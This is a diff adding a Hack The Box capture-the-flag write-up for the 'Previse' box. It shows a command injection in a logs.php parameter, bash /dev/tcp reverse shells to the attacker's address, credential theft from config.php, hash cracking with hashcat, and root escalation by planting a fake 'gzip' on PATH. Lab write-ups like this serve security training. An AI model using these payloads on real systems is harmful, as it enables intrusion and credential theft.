

htb_previse

diff --git a/htb_boxes/Linux/1-Easy/previse/README.md b/htb_boxes/Linux/1-Easy/previse/README.md
@@ -126,9 +126,190 @@ There are several interesting pages:
 
 ### Account Registration
 Adding Burp's Match and Replace rule:
-```
-Response header | 302 Found | 200 OK
-```
 
 ![image](./screenshot/01.png)
 
+Created user & login:
+```
+bigb0ss : password
+```
+
+![image](./screenshot/02.png)
+
+### Command Injection (www-data)
+Request
+```
+POST /logs.php HTTP/1.1
+Host: 10.10.11.104
+User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
+Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
+Accept-Language: en-US,en;q=0.5
+Accept-Encoding: gzip, deflate
+Content-Type: application/x-www-form-urlencoded
+Content-Length: 37
+Origin: http://10.10.11.104
+Connection: close
+Referer: http://10.10.11.104/file_logs.php
+Cookie: PHPSESSID=aev6d7kta8hb0v50gqq9lcfr1u
+Upgrade-Insecure-Requests: 1
+
+delim=bigb0ss;ping -c 1 10.10.14.17 #
+```
+
+ICMP ping request POC:
+```
+┌──(kali㉿kali)-[~]
+└─$ sudo tcpdump -i tun0 icmp
+[sudo] password for kali: 
+tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
+listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
+22:15:43.782651 IP 10.10.11.104 > 10.10.14.17: ICMP echo request, id 2721, seq 1, length 64
+22:15:43.782685 IP 10.10.14.17 > 10.10.11.104: ICMP echo reply, id 2721, seq 1, length 64
+```
+
+Reverse Shell:
+```
+POST /logs.php HTTP/1.1
+Host: 10.10.11.104
+User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
+Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
+Accept-Language: en-US,en;q=0.5
+Accept-Encoding: gzip, deflate
+Content-Type: application/x-www-form-urlencoded
+Content-Length: 71
+Origin: http://10.10.11.104
+Connection: close
+Referer: http://10.10.11.104/file_logs.php
+Cookie: PHPSESSID=aev6d7kta8hb0v50gqq9lcfr1u
+Upgrade-Insecure-Requests: 1
+
+delim=bigb0ss;bash -c 'bash -i >%26 /dev/tcp/10.10.14.17/9001 0>%261' #
+```
+
+```
+┌──(kali㉿kali)-[~/htb/box/previse]
+└─$ nc -lvnp 9001                           
+listening on [any] 9001 ...
+connect to [10.10.14.17] from (UNKNOWN) [10.10.11.104] 60552
+bash: cannot set terminal process group (1517): Inappropriate ioctl for device
+bash: no job control in this shell
+www-data@previse:/var/www/html$ id
+id
+uid=33(www-data) gid=33(www-data) groups=33(www-data)
+```
+
+## Privesc 
+### MySQL DB Access (www-data --> m4lwhere)
+Getting credentials for the MySQL DB:
+```
+www-data@previse:/var/www/html$ cat config.php
+cat config.php
+<?php
+
+function connectDB(){
+    $host = 'localhost';
+    $user = 'root';
+    $passwd = 'mySQL_p@ssw0rd!:)';
+    $db = 'previse';
+    $mycon = new mysqli($host, $user, $passwd, $db);
+    return $mycon;
+}
+
+?>
+```
+
+```
+mysql -h localhost -u root -p'mySQL_p@ssw0rd!:)'
+
+...snip...
+
+Database changed
+mysql> show tables; 
++-------------------+
+| Tables_in_previse |
++-------------------+
+| accounts          |
+| files             |
++-------------------+
+2 rows in set (0.00 sec)
+
+mysql> select * from accounts;
++----+----------+------------------------------------+---------------------+
+| id | username | password                           | created_at          |
++----+----------+------------------------------------+---------------------+
+|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
+|  2 | bigb0ss  | $1$🧂llol$79cV9c1FNnnr7LcfPFlqQ0 | 2022-01-17 02:52:20 |
++----+----------+------------------------------------+---------------------+
+2 rows in set (0.00 sec)
+```
+
+Cracking the password for the `m4lwhere` user:
+```
+┌──(kali㉿kali)-[~]
+└─$ hashcat -m 500 m4lwhere.hash /usr/share/wordlists/rockyou.txt
+
+...snip...
+
+$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!
+```
+
+### user.txt
+```
+m4lwhere@previse:~$ whoami
+m4lwhere
+m4lwhere@previse:~$ cat user.txt 
+822c__REDACTED__7ba71
+```
+
+### Path Injection (m4lwhere --> root)
+```
+m4lwhere@previse:~$ sudo -l
+[sudo] password for m4lwhere: 
+User m4lwhere may run the following commands on previse:
+    (root) /opt/scripts/access_backup.sh
+m4lwhere@previse:~$ 
+m4lwhere@previse:~$ cat /opt/scripts/access_backup.sh
+#!/bin/bash
+
+# We always make sure to store logs, we take security SERIOUSLY here
+
+# I know I shouldnt run this as root but I cant figure it out programmatically on my account
+# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time
+
+gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
+gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
+```
+
+The `access_backup.sh` is calling `gzip` without the full path. We can create a reverse shell filename called as `gzip` in another location and update the `$PATH` to call our `gzip` file first. 
+```
+m4lwhere@previse:/dev/shm$ ls -la
+total 4
+drwxrwxrwt  2 root     root       60 Jan 17 03:54 .
+drwxr-xr-x 19 root     root     3880 Jan 16 23:40 ..
+-rw-rw-r--  1 m4lwhere m4lwhere   42 Jan 17 03:54 gzip
+m4lwhere@previse:/dev/shm$ cat gzip
+bash -i >& /dev/tcp/10.10.14.17/9002 0>&1
+m4lwhere@previse:/dev/shm$ export PATH=/dev/shm:$PATH
+m4lwhere@previse:/dev/shm$ echo $PATH                
+/dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
+```
+
+Making the newly created `gzip` as execuatable:
+```
+m4lwhere@previse:/dev/shm$ chmod +x gzip
+m4lwhere@previse:/dev/shm$ sudo /opt/scripts/access_backup.sh
+```
+
+### root.txt
+```
+┌──(kali㉿kali)-[~]
+└─$ nc -lvnp 9002
+listening on [any] 9002 ...
+connect to [10.10.14.17] from (UNKNOWN) [10.10.11.104] 36132
+root@previse:/dev/shm# id
+id
+uid=0(root) gid=0(root) groups=0(root)
+root@previse:/dev/shm# cat /root/root.txt
+cat /root/root.txt
+24f7__REDACTED__7b04
+```
